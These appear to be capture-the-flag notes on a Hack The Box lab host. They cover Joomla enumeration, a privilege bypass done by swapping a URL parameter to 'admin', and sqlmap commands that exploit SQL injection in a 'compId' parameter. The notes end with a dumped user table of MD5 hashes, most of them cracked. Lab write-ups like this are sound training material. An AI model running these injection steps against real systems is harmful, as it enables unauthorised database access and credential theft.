 

### Joomscan

- Joomla 3.8.1
- Core no vuln



## http://rabbit.htb:8080/joomla/administrator/index.php

Log interface



## http://rabbit.htb:8080/complain/login.php

Server: Apache/2.4.27 (Win64) PHP/5.6.31
X-Powered-By: PHP/5.6.31

Complain Management System- Login
Powered By: <a href="http://www.techzoo.org/">TechZoo - A Zoo of Technology</a></p>

Register a client
Browse to Make complain
Look at Burp
GET /complain/view.php?mod=customer&view=compDetails HTTP/1.1

Intercept and replace customer by admin... tada...

View complain detail & assign it. Test replay with compId=9 => compId='
Sav Burp POST 

## sqlmap

```
# sqlmap -r complain_post.txt --dbms=mysql -p "compId" --risk=3 --level=3 --batch
# sqlmap -r complain_post.txt --dbms=mysql -p "compId" --risk=3 --level=3 --batch --dbs
# sqlmap -r complain_post.txt --dbms=mysql -p "compId" --risk=3 --level=3 --batch -D secret --dump

Database: secret                                                                                                                                                      
Table: users
[10 entries]
+----------+--------------------------------------------------+
| Username | Password                                         |  https://crackstation.net/
+----------+--------------------------------------------------+
| Zephon   | 13fa8abd10eed98d89fd6fc678afaf94                 |  ??
| Kain     | 33903fbcc0b1046a09edfaa0a65e8f8c                 |  doradaybendita
| Dumah    | 33da7a40473c1637f1a2e142f4925194 (popcorn)       |
| Magnus   | 370fc3559c9f0bff80543f2e1151c537                 |  xNnWo6272k7x
| Raziel   | 719da165a626b4cf23b626896c213b84                 |  kelseylovesbarry
| Moebius  | a6f30815a43f38ec6de95b9a9d74da37 (santiago)      |
| Ariel    | b9c2538d92362e0e18e52d0ee9ca0c6f (pussycatdolls) |
| Turel    | d322dc36451587ea2994c84c9d9717a1                 |  ??
| Dimitri  | d459f76a5eeeed0eca8ab4476c144ac4                 |  shaunamaloney
| Malek    | dea56e47f1c62c30b83b70eb281a6c39 (barcelona)     |
+----------+--------------------------------------------------+
```
